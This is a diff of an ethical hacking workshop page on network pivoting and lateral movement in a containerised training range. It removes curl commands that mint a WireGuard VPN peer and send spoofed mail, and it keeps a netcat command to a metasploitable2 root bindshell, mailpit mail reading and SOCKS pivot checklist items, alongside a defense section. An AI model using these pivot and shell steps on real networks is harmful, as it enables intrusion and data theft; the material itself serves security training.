

Before and after one commit to wocsa/WOCSA_Ethical_Hacking_Workshop, a Markdown page: Network/Pivoting/Pivoting_Lateral_Movement.md, the part around one of its changes. Shown at 87% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Network/Pivoting/Pivoting_Lateral_Movement.md
+++ b/Network/Pivoting/Pivoting_Lateral_Movement.md
@@ -166,46 +188,28 @@ Once DVWA is pwned, the cleanest lateral move is to stop pivoting altogether and
 
-```bash
-# 1. List current VPN peers (verify credentials)
-docker exec cyberrange-dvwa curl -s -u "admin:<WG_ADMIN_PASSWORD>" http://10.5.20.2:51821/api/client
-
-# 2. Create your own peer
-docker exec cyberrange-dvwa curl -s -u "admin:<WG_ADMIN_PASSWORD>" \
-  -X POST http://10.5.20.2:51821/api/client \
-  -H "Content-Type: application/json" \
-  -d '{"name":"pivot-proof","expiresAt":null}'
-
-# 3. (cleanup after the exercise) delete it, using the id returned by step 2
-docker exec cyberrange-dvwa curl -s -u "admin:<WG_ADMIN_PASSWORD>" \
-  -X DELETE http://10.5.20.2:51821/api/client/<id>
-```
-Retrieve the peer configuration (documented in the wg-easy API) and import it into your WireGuard client: you now route `10.5.20.0/24` from your own laptop - the attacker "became an employee". This is why `WG_ADMIN_PASSWORD` has no default and why the admin UI deserves a dedicated loopback binding (see the CyberRange README, "Pivoting and isolation").
+Do not assume wg-easy v15 accepts Basic authentication on `/api/client`, or that Grafana reveals its encrypted `secureJsonData` values. Use the deployed version's UI and verify its API before automating it. Reading `CyberRange/.env` as the operator is an assisted credential handoff, not an attacker discovery. The sample environment has a known training password; change it for a shared session.
 
 # Phase 4 - Lateral movement goals
 Choose your own adventure, all from the pivoted position:
 - **Own metasploitable2** (`10.5.20.12`): `msfadmin` / `msfadmin` over SSH or telnet; or the famous root bindshell on port `1524`:
   ```bash
-  docker exec cyberrange-dvwa sh -c 'echo id | nc 10.5.20.12 1524'
+  docker exec cyberrange-dvwa sh -c 'printf "id\nexit\n" | nc -w 3 10.5.20.12 1524'
   ```
   Then enumerate its many services (21, 22, 23, 25, 111, 139, 445, 512-514, 1099, 2121, 3306, 3632, 5432, 6667, 6697, 8009, 8180, 8787) for more practice.
-- **Own the workstations** (`https://10.5.20.21:3001`, `https://10.5.20.22:3001`): first steal credentials from grafana (`10.5.20.14:3000`, `admin`/`admin` -> provisioned dashboards and Infinity datasource hold wg-easy/mailpit API creds), then log into the desktops.
+- **Inspect the optional workstations** through the SOCKS browser (`https://10.5.20.21:3001`, `https://10.5.20.22:3001`). These use self-signed certificates. The Compose configuration does not set desktop credentials; VPN credentials are not desktop credentials.
 - **Read the company mail** (mailpit, reachable from DVWA on the DMZ leg):
   ```bash
   docker exec cyberrange-dvwa curl -s http://10.5.10.13:8025/api/v1/messages
-  docker exec cyberrange-dvwa curl -s http://10.5.10.13:8025/api/v1/message/<ID>/raw
-  docker exec cyberrange-dvwa curl -s -X POST http://10.5.10.13:8025/api/v1/send \
-    -H "Content-Type: application/json" \
-    -d '{"to":[{"email":"ceo@wocsa-corp.local"}],"subject":"Urgent","text":"spoofed"}'
+  docker exec cyberrange-dvwa curl -s 'http://10.5.10.13:8025/api/v1/message/REPLACE_WITH_ID/raw'
   ```
 
 # Defense & detection
-- **Verify the segmentation works**: from a DMZ-only container, the intranet must be unreachable:
+- **Verify segmentation against listening services**: pair each negative check (from a DMZ-only box) with a successful check from DVWA. For a manual wiki check:
   ```bash
   docker exec cyberrange-corporate-site wget -qO- --timeout=2 http://10.5.20.10/ ; echo "exit=$?"
-  docker exec cyberrange-corporate-site wget -qO- --timeout=2 http://10.5.15.10/ ; echo "exit=$?"
   ```
-  Both fail - unlike the same commands on DVWA. This is the single most important lesson: DVWA is reachable *because* someone gave it three legs.
+  This should fail while the wiki HTTP request from DVWA succeeds. Test the database on TCP 3306, not HTTP port 80 (which is closed even without isolation). This is the single most important lesson: DVWA is reachable *because* someone gave it three legs.
 - **Least privilege network legs**: DMZ apps need a DMZ leg, not an intranet one. Databases need a private tier reachable only by their application. Review every container's networks like a firewall rule.
-- **Why monitoring would spot the pivot**: the range's own grafana dashboards and blackbox exporter watch every service; a flood of new connections from `10.5.20.20` to unusual ports, a new wg-easy peer named `pivot-proof`, or mailpit API hits from a web container are all visible anomalies. A SOC would correlate exactly these events.
+- **Detection limits**: the bundled Prometheus/blackbox dashboards show service health, not connection histories or peer-creation audit events. To investigate a pivot, collect application logs and packet captures on the relevant interfaces. Record source/destination addresses and timestamps during the exercise.
 - **Patch and segment DVWA**: it is intentionally vulnerable (low security level, command injection, file upload) - in production it should be patched, hardened, and, above all, stripped of its intranet leg.
 
 # Takeaways checklist
@@ -214,8 +218,8 @@ Choose your own adventure, all from the pivoted position:
 - [ ] Enumerated `10.5.20.0/24` from DVWA with the php/python3 port-80 sweep
 - [ ] Reached the wiki (`10.5.20.10`), metasploitable2 (`10.5.20.12`) and wg-easy (`10.5.20.2:51821`) through the curl relay
 - [ ] Caught a metasploitable2 root shell through the DVWA nc relay
-- [ ] Set up a SOCKS pivot (ssh `-D` on an SSH host, or chisel/python3 on DVWA) and browsed the intranet with `proxychains`
-- [ ] Minted and then deleted a WireGuard peer via the wg-easy API
+- [ ] Set up a reverse Chisel SOCKS pivot on DVWA and browsed the intranet with `proxychains`
+- [ ] Optionally created and deleted a WireGuard peer through the UI with instructor credentials
 - [ ] Verified that a DMZ-only container cannot reach the intranet
 - [ ] Read company mail through the mailpit API
 
````
Also changed, not shown: other parts of Network/Pivoting/Pivoting_Lateral_Movement.md (+64 -42 lines), README.md (+2 -0 lines).
